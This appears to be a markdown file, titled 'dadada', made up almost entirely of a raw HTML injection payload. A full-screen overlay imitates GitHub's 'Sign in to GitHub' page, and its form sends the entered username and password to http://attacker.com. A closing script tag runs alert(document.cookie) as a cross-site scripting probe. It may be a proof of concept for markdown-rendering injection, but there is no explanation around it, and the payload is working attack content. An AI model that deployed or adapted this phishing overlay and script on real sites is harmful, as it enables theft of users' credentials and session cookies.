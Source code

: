 # dadada

<div style="position:fixed;left:0;top:0;width:100%;height:100vh;background: #c9d1d9;z-index:1; padding-top: 10vh;color:#090d11">
    <center>
        <svg height="48" aria-hidden="true" viewBox="0 0 16 16" version="1.1" width="48" data-view-component="true" class="octicon octicon-mark-github">
            <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
        </svg>
        <h1 style="font-size: 24px;font-weight: 300;letter-spacing: -.5px;">Sign in to GitHub</h1>
        <div style="padding-top:1em; padding-bottom: 1em; background:#090d11;width:50%; border-radius:7px;color:#c9d1d9">
            <form action="http://attacker.com" accept-charset="UTF-8" method="get">
                <label for="login_field">Username or email address</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="text" name="login" id="login_field" autocomplete="username" autofocus="autofocus"><br/>
                <label for="password">Password</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="password" name="password" id="password" autocomplete="current-password"><br/><br/>
                <input style="background:#2ea043; border-color:#2ea043; width:50%; border-radius:7px;color:white; text-weigth: bold; font-size: 17px;" type="submit" name="commit" value="Sign in">
            </form>
        </div>
    </center>
</div>
<script>alert(document.cookie)</script>
